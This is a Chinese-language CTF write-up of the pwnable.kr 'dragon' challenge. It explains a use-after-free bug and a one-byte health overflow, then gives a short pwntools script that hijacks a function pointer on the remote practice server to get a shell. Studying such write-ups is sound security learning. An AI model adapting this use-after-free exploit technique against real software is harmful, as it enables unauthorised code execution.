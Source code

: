 ```yaml
---
title: pwnable dragon
tags: [Linux]
date: 2017-06-24 00:23
---
```

借着这段时间学UAF，又找了一道UAF的题目做了一下，这个题目很简单，看着WP写的，思路也非常的清晰。
<!-- more -->
<link rel="stylesheet" type="text/css" href="http://static.blog.csdn.net/css/csdn_blog_detail.min.css">
<div class="markdown_views"><blockquote>
<p>借着这段时间学UAF，又找了一道UAF的题目做了一下，这个题目很简单，看着WP写的，思路也非常的清晰。</p>
</blockquote>
<p>题目地址： <br>
nc pwnable.kr 9004 <br>
题目下载： <br>
<a href="http://pwnable.kr/bin/dragon">http://pwnable.kr/bin/dragon</a></br></br></br></p>
<h1 id="0x01-简单分析">0x01 简单分析</h1>
<p>这题是让我们打龙，首先利用IDA查看龙的相关信息 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170623230511757?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
上面是两个龙的结构体</br></img></br></p>
<p>又发现了一个神秘关卡 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170623230738531?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></p>
<p>里面有要获取的shell</p>
<p>发现在杀死龙之后会释放龙内存，同时也会重新申请相同大小的内存进行写入而且偏移量正好是龙结构体的函数指针处。这样我们就能利用UAF（释放重利用）控制整个程序流。下面第一个难题是怎样杀死一条龙。</p>
<h1 id="0x02-屠龙">0x02 屠龙</h1>
<p>Priest <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170623235140524?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
Knight <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170624001143324?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></br></img></br></p>
<p>我们发现如果是直接想把龙打死是不可能的但是我们发现了一个技能Priest的3技能 <br>
可以是龙的回升.同时发现大龙的血是80 一个字节127可以使其溢出，从而把大龙打死。</br></p>
<h1 id="0x03-编写exp">0x03 编写exp</h1>
<pre class="prettyprint"><code class=" hljs python"><span class="hljs-keyword">from</span> pwn <span class="hljs-keyword">import</span> *
sh = remote(<span class="hljs-string">'pwnable.kr'</span>,<span class="hljs-number">9004</span>) <span class="hljs-comment">#process('./dragon')</span>


<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">killself</span><span class="hljs-params">(sh)</span>:</span>
    <span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> range(<span class="hljs-number">0</span>,<span class="hljs-number">3</span>):
        sh.send(<span class="hljs-string">'1'</span>+<span class="hljs-string">'\n'</span>)
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">killdragon</span><span class="hljs-params">(sh)</span>:</span>
    <span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> range(<span class="hljs-number">0</span>,<span class="hljs-number">4</span>):
        sh.send(<span class="hljs-string">'3'</span>+<span class="hljs-string">'\n'</span>)
        sh.send(<span class="hljs-string">'3'</span>+<span class="hljs-string">'\n'</span>)
        sh.send(<span class="hljs-string">'2'</span>+<span class="hljs-string">'\n'</span>)       


killself(sh)
sh.send(<span class="hljs-string">'1'</span>+<span class="hljs-string">'\n'</span>)
killdragon(sh)
sh.send(p32(<span class="hljs-number">0x08048DBF</span>))
sh.interactive()</code></pre>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170624002304784?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p></div>